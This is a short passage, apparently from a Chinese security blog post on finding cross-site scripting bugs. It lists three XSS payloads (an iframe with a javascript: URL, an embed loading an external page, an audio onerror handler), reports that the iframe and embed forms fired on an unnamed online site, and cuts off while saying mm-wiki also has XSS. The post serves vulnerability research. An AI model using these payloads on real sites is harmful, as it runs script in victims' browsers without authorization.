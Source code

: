 ```bash
<iframe src=javascript://%0aalert('iframe')>
<embed src="https://c0olw.github.io/pic/1.html">
<audio src=x onerror=confirm("casrc")> //从 xmind 那抄来的
```

以一个在线网站网站为例，尝试最简单的 payload 都没啥反应  
[![](assets/1710465384-ce9d1cd4cd04db3c8c88fd6b8ea30bed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240313132303-c41ba42e-e0f9-1.png)  
换了个 `embed` `iframe` 一下就出了，当然这个反射性没啥用，只是给各位平时做漏洞挖掘起到一点启发。  
[![](assets/1710465384-6bdd63023400e693b1f4d9c804c7cff4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240313132337-d851b47e-e0f9-1.png)

[![](assets/1710465384-7e4d8b9e4ddac26e7272ade469525cd0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240313132427-f6145322-e0f9-1.png)

当然 mm-wiki 上也是存在 xss 的，  